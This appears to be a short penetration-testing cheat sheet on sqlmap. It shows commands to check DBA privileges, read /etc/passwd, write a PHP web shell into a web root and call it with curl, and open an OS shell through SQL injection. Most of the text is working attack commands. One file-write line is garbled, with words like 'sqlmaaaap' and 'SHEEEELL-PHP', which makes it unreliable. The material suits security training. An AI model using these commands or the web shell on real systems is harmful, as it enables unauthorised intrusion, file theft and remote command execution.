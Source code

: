 ## Checking for DBA Privileges
```shell-session
$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --is-dba
```

## Reading Local Files
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```
```shell-session
$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```
## Writing Local Files
```shell-session
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
```shell-session
$ sqlmaaaap "http://www.exaaaampleee.com/?id=1" --file-write "SHEEEELL-PHP" --file-dest "/vaAAAR/www/HTTTML/SHELLL.php"
```
```shell-session
$ curl http://www.example.com/shell.php?cmd=ls+-la
```
## OS Command Execution
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```
